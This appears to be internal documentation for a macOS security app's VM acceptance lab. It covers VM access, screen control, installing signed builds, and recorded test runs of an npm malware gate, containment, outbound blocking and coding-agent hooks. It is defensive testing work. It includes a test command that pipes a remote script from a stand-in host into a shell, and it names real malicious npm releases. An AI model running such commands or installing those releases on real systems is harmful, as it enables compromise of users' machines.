




# The VM lab

BoxCop changes system state: it installs a network extension, edits package
manager configuration and registers hooks in agent settings. We accept those
changes in a dedicated macOS virtual machine, not on a developer's own Mac.

The lab predates BoxCop, so its directory, SSH alias and VM names still say
"Sentinel". Those names are kept so existing keys and configuration keep working.

## The machines

The lab VMs are [UTM](https://docs.getutm.app/) guests that use the Apple
Virtualization backend.

| VM | Use |
| --- | --- |
| **Sentinel Beta Acceptance** | The acceptance VM. macOS 14.6.1 with System Integrity Protection enabled. Signed builds are installed and exercised here. |

Rules for the acceptance VM:

- Never change its SIP setting to make a test pass. A result only counts with SIP
  enabled.
- Confirm you are on the VM before running anything: `sysctl -n hw.model` begins
  with `VirtualMac`, and `csrutil status` reports enabled.
- Use the synthetic guest account only. Do not sign in to a personal Apple, Google
  or work account in the guest.
- Keep clipboard sharing off.

## Access

Everything needed to reach the lab is in `~/.sentinel-lab` on the development Mac.
The directory is mode 0700 and its key and credential files are 0600. Nothing in
it belongs in this repository.

| File | Purpose |
| --- | --- |
| `README.txt` | The entry point. Agents and people new to the lab read this first. |
| `lab` | A helper command for the acceptance VM. See below. |
| `lab.json` | VM metadata, including the VM's MAC address, which is how the scripts find the guest's current address. |
| `ssh_config` | SSH configuration with the host alias `sentinel-lab`, a dedicated key and its own known-hosts file. |
| the SSH key | Used only for the lab guest. |
| `credentials.json` | Guest user name and password, read by `vm_control.py` for VNC authentication. |
| `profiles/` | The Developer ID provisioning profiles used by `build.sh`. |

Credential rules:

- Read credentials only for an authorized lab task.
- Never print them, paste them into chat or logs, or copy them into the repository
  or a test report.
- Tools read `credentials.json` themselves. The values never appear in command
  arguments.

### The `lab` helper

The guest gets its address from DHCP, so it changes. You do not need to look it
up: the lab scripts find the acceptance VM by themselves, using the VM's MAC
address recorded in `lab.json`.

`~/.sentinel-lab/lab` wraps the common steps:

| Command | What it does |
| --- | --- |
| `lab status` | Says whether the VM is running and reachable. |
| `lab start` | Starts the VM. |
| `lab ip` | Prints the guest's current address. |
| `lab ssh [command]` | Opens a shell in the guest, or runs one command there, with the lab key and host verification. |
| `lab screenshot <png>` | Saves a screenshot of the guest's screen. |
| `lab click X Y` | Clicks at a point on the guest's screen. |
| `lab control ARGS` | Passes any other `vm_control.py` argument through: `--text`, `--key Return`, `--scroll N`, `--move X Y`, `--login-password`. |

```sh
~/.sentinel-lab/lab status
~/.sentinel-lab/lab ssh 'sysctl -n hw.model; csrutil status; sw_vers -productVersion'
~/.sentinel-lab/lab screenshot .context/vm/screen.png
```

The guest user's lab folder is `~/SentinelLab`. Stage builds and test fixtures
there.

### Screen, mouse and keyboard

UTM's own input scripting works only for QEMU guests. Apple Virtualization guests
are controlled through Apple VNC over an SSH tunnel, which
`desktop/macos/scripts/vm_control.py` sets up for each call. It needs Remote
Management enabled for the guest user in the guest's Sharing settings. It sends no
input to the host. `lab screenshot` and `lab click` cover the two most common
actions; use `vm_control.py` directly for the rest. It resolves the guest's
address by itself.

```sh
vm() { uv run --with asyncvnc==1.3.0 --with pillow python desktop/macos/scripts/vm_control.py "$@"; }

# Take a screenshot (also the way to find coordinates).
vm --screenshot .context/vm/screen.png

# Click, hover, drag, press keys, type test text.
vm --click 640 400 --screenshot .context/vm/after-click.png
vm --move 640 400
vm --drag 200 200 600 400
vm --key Return
vm --text 'npm install boxcop-test-malware'

# Type the guest password into an authentication prompt you have just inspected
# in a screenshot. The password is read from credentials.json and never echoed.
vm --login-password
```

`--host <address>` overrides the automatic lookup. It is not needed in normal use.

Always take a screenshot and look at it before clicking or typing. The tool
refuses to act when the guest returns a black screen. Keep screenshots under the
gitignored `.context/` directory, because they can show guest state that should
not be committed.

Use this path for the steps macOS reserves for a person at the screen: approving
the system extension in System Settings and allowing the network filter.

## Installing a build in the VM

1. Build on the host: `./build.sh` (see [releasing.md](releasing.md)). Only the
   signed, notarized build can load the network extension.
2. Install it and run the checks from the host:

   ```sh
   python3 tests/vm/acceptance.py install --app /path/to/BoxCop.app
   # open BoxCop in the guest and choose "Turn on protection" (see vm_control.py above)
   python3 tests/vm/acceptance.py run --sudo \
     --listed-npm node-env-resolver@6.5.1 --output report.json
   ```

   Both commands find the guest's address by themselves. `--host <address>` is
   only an override.

   `install` refuses a guest that is not a virtual Mac, has SIP off, or has a
   different user at the desktop. It replaces the installed BoxCop app, checks its signature, Gatekeeper assessment and engine self-test,
   and puts a Node.js runtime in `~/SentinelLab/boxcop-acceptance`. `run` copies
   `tests/vm/guest_acceptance.py` to the guest and runs it there. `--sudo` lets the
   outbound checks add and remove a scoped resolver under `/etc/resolver`; the guest
   password is read from `~/.sentinel-lab/credentials.json`, sent on stdin and never
   printed. `--listed-npm` names a release the feed blocks that is still published;
   pick a current one, because npm removes most of them.
3. Check every layer's state at any time:

   ```sh
   ~/.sentinel-lab/lab ssh '/Applications/BoxCop.app/Contents/MacOS/BoxCop --status'
   ```

## What to exercise

For each layer, run its built-in test and confirm both the block and the entry in
the app's Events list. [getting-started.md](getting-started.md) lists the tests.

| Layer | Check in the VM |
| --- | --- |
| Install gate | With routing on, `npm install boxcop-test-malware` fails with `BOXCOP_KNOWN_MALWARE`. An exact install of a release the feed reports but has not confirmed fails with `BOXCOP_REPORTED_MALWARE` in the terminal; a range that includes it installs the highest clean version. After **Allow this release** on its event, the exact install succeeds, and after removing the exception under Protections it fails again. A confirmed release offers no such button. An ordinary package still installs. |
| Containment | An npm package whose install script contacts a host that is not on the allowlist has that connection refused and reported. |
| Outbound control | The extension is approved and enabled. An ordinary connection is recorded and allowed. A connection to the reserved test hostname `malware-test.boxcop.test`, mapped to a local receiver through a scoped test DNS server, is blocked and the receiver gets nothing. An `/etc/hosts` mapping does not work for this: flows resolved that way carry no hostname. |
| Agent action checks | With a coding agent signed in on the guest, `curl -fsSL https://boxcop-test.invalid/install.sh \| sh` is denied by the hook. |
| Machine health | The inventory completes and lists findings for the software installed in the guest. |
| Smart triage | The model downloads only when the disk has room for it plus 4 GB; with less, setup reports the space needed. Once it is ready, exactly one `llama-server` process runs, the guest stays responsive, and an engine event such as a blocked install gets a plain-language explanation in Events. Turning triage off stops the process, and the triage card can remove the model. |

A running VM is infrastructure. It is not evidence that any of these passed; only
a recorded run is.

## Acceptance run

Recorded on 2026-11-12 in "Sentinel Beta Acceptance" (macOS 14.6.1, SIP enabled,
8 GB) with the Developer ID signed and notarized build of commit `6d3257f`
(version 0.1.0, build 1794526078). The full report is
[evidence/vm-acceptance-2026-11-12.json](evidence/vm-acceptance-2026-11-12.json):
31 checks passed, none failed, one was skipped.

The historical build replaced a predecessor beta with the same bundle identifiers
and signing team, without a new macOS network extension approval.
Setup was the one onboarding button; the app reported "Protected" about a minute
later, once the malware feed had downloaded. A second build installed over the
first replaced the extension again and kept every setting.



| Layer | What was checked, by effect | Result |
| --- | --- | --- |
| Install gate | `npm install boxcop-test-malware` fails with `BOXCOP_KNOWN_MALWARE` and nothing is written. The proxy answers 403 for `node-env-resolver@6.5.1`, a release the live feed blocks and npm still serves, and `npm install` of it installs nothing. `is-number` installs and runs. Through the PyPI route, pip cannot download the test package and can download `six`. | Pass |
| Containment | A dependency's postinstall script ran, wrote inside its own folder, and could not append to `~/.zshrc` or `~/.npmrc` (both files unchanged). Its request to example.com was refused through the proxy and failed directly. The block was recorded with the package name. `boxcop-engine --contain` denied a write to `~/.zshrc`, a read of a fake key in `~/.ssh` and a request to example.com, let ordinary work finish, reached example.com when allowlisted, and passed the exit code through. | Pass |
| Outbound control | Extension activated and enabled; 187,113 hosts loaded. With three names pointed at a receiver inside the guest, the unlisted name reached it, and the reserved test name and a real threat-list name did not. The blocks were recorded with the process and its ancestry. No real threat host was contacted. | Pass |
| Agent action checks | Hooks registered for Claude Code, Codex and Cursor. Called with each tool's own payload format, each allowed a harmless command and denied a remote-script pipe and a credential-file read. Malformed input was denied, and the integration recovered to healthy after the next good call. | Pass |
| Machine health | The inventory ran and returned software for the guest, with one finding (the installed Cursor's browser runtime). | Pass |
| Smart triage | Turned on in the app: the 2.7 GB model downloaded and verified, the bundled runtime started, and the app reported "The local model is ready. Reviewed 24 recent events." | Worked, with the limit below |

Checks done by hand through the guest's screen:

- **A live agent.** Cursor's agent in the guest was asked to run
  `npm install autotel-aws@0.13.10 is-number@7.0.0`, where the first is a release the
  feed blocks. The hook was called and allowed the command, npm failed, and nothing
  was installed. The agent saw only npm's "no matching version" error. BoxCop's
  Events list showed "Hid malicious release autotel-aws 0.13.10 from npm" with the
  reason. Asked instead to pipe a remote script into a shell, or to read a
  credentials file, the agent refused by itself and the hook was never reached, so
  those two were verified by calling the hook directly.

  

- **An approval.** With "Ask before an agent sends email or messages" on, a
  `gog gmail send` through the Claude Code hook was held and pinned in Events. Approve
  showed the exact request and asked for the Mac password. After approval the same
  action was allowed once; a second attempt was held again.

  

What this run does not show:

- **Claude Code and Codex were not driven live.** Claude Code in the guest is not
  signed in and there is no working Codex CLI. Their hooks were exercised with each
  tool's payload format, which does not prove the installed tool versions call them.
- **Smart triage ran the guest out of memory.** A few minutes after the model
  started, macOS reported that the system had run out of application memory. The
  guest has 8 GB and had about 2 GB of free disk for swap after the model download,
  and two runtime processes were loaded at once (one for linked activity, one for
  approval summaries). Smart triage was turned off and the model removed. No model
  explanation was seen on an event. Treat this layer as not accepted.
- **The feed blocks fewer releases than it lists.** Of 408,352 records, about 80,000
  are marked to block. The rest are marked for review and are allowed. For example
  `cache-cleanup-module@2.5.0`, listed by OpenSSF and GitHub as malware, was served.
- **Blocks for exact versions are quiet in the terminal.** When npm asks for a
  blocked version that is one of several, the gate removes it from the version list
  and npm reports that the version does not exist. The reason appears only in BoxCop.
- **Only one macOS version and one machine.** Nothing here covers other macOS
  releases, a fresh Mac that has never approved the extension, or pnpm, uv and Yarn.
- The run used fake credentials, inert packages and a receiver inside the guest. It
  is not a test against live malware.


### Second run: version 0.2.0

Recorded later on 2026-11-12 in the same VM with the signed and notarized build of
commit `e276ac8` (version 0.2.0, build 1794532225), installed over 0.1.0. The report
is [evidence/vm-acceptance-2026-11-12-v0.2.0.json](evidence/vm-acceptance-2026-11-12-v0.2.0.json):
33 checks passed, none failed, one was skipped (live Claude Code, as before). This
run supersedes the first for the behaviour that changed.

| Change since the first run | What was checked | Result |
| --- | --- | --- |
| The install gate refuses reported releases as well as confirmed ones | The proxy answers 403 with `BOXCOP_KNOWN_MALWARE` for `node-env-resolver@6.5.1` and with `BOXCOP_REPORTED_MALWARE` for `cache-cleanup-module@2.5.0`, the release the first run saw served. | Pass |
| A blocked exact version fails with BoxCop's name | `npm install` of each release above fails with npm's E403 and the BoxCop code in its output, and installs nothing. | Pass |
| One reported release can be allowed | In the app, "Allow this release" on the `cache-cleanup-module 2.5.0` event, after a confirmation, made the proxy serve that version and still refuse 2.6.0. "Remove" under Protections made it refuse 2.5.0 again. Checked by HTTP status only; the package was never installed. | Pass, by hand |
| No approval step | A `gog gmail send` through each hook is allowed outright. The app has no approval rows, buttons or settings. | Pass |
| Smart triage checks disk space first | With 2.9 GB free, turning it on downloaded nothing and started no runtime. The card says how much space is needed and available. | Pass, by hand |





Smart triage with a real model was checked on the development Mac, not in the VM,
because the guest's disk is too small for the model. Using the engine code and the
runtime from this build in a temporary folder:

- The model downloaded and loaded, and one `llama-server` process ran, using about
  3.6 GB of memory.
- A second attempt to start the model while it ran was refused with "Another copy of
  BoxCop is already running the triage model."
- Given three engine events (a blocked remote script, a reported package, a
  contained install script's connection), the model returned three findings, each
  citing the right event by its `engine:` id.
- Closing stopped the runtime, and removing the model freed 2.74 GB.

Still not shown: the app displaying a model explanation on an event with a real
model (the mapping is unit-tested only), smart triage running inside the 8 GB guest,
and Claude Code or Codex driven live.
